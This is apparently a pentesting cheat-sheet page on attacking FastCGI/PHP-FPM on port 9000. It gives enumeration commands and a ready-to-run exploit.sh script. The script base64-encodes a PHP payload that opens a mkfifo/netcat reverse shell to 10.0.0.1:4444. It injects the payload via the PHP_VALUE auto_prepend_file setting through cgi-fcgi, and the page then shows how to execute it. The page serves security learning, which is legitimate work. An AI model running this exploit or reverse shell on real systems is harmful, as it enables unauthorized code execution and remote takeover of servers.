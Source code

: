 ```yaml
---
description: Port 9000
---
```


# FastCGI

## Theory

FastCGI is a binary protocol for interfacing interactive programs with a web server. It uses the **9000 port** by default.  **Usually** FastCGI only listen in **localhost and** It's quiet easy to make FastCGI execute arbitrary code.

## Practice

{% tabs %}
{% tab title="Enumerate" %}
If the **PHP-FPM (FastCGI Process Manager)** is running on the target system, we might be able to execute arbitrary command.

```bash
#Enum processes
ps aux | cat| grep php-fpm
php-fpm: pool username

#Enum network
ss -lntp
LISTEN 0    511    127.0.0.1:9000    0.0.0.0:*
```
{% endtab %}

{% tab title="Exploit" %}
We need to create an arbitrary PHP file somewhere. For instance,

```bash
touch /dev/shm/index.php
```

Then using the following shell script **"exploit.sh",** we can obtain a reverse shell

{% code title="exploit.sh" %}
```bash
#!/bin/bash

PAYLOAD="<?php echo '<!--'; system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.0.0.1 4444 >/tmp/f'); echo '-->';"
FILENAMES="/dev/shm/index.php" # Exisiting file path

HOST=$1
B64=$(echo "$PAYLOAD"|base64)

for FN in $FILENAMES; do
    OUTPUT=$(mktemp)
    env -i \
      PHP_VALUE="allow_url_include=1"$'\n'"allow_url_fopen=1"$'\n'"auto_prepend_file='data://text/plain\;base64,$B64'" \
      SCRIPT_FILENAME=$FN SCRIPT_NAME=$FN REQUEST_METHOD=POST \
      cgi-fcgi -bind -connect $HOST:9000 &> $OUTPUT

    cat $OUTPUT
done

```
{% endcode %}

Execute it:

```bash
chmod +x exploit.sh
./exploit.sh localhost
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://exploit-notes.hdks.org/exploit/network/fastcgi-pentesting/" %}

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/9000-pentesting-fastcgi" %}
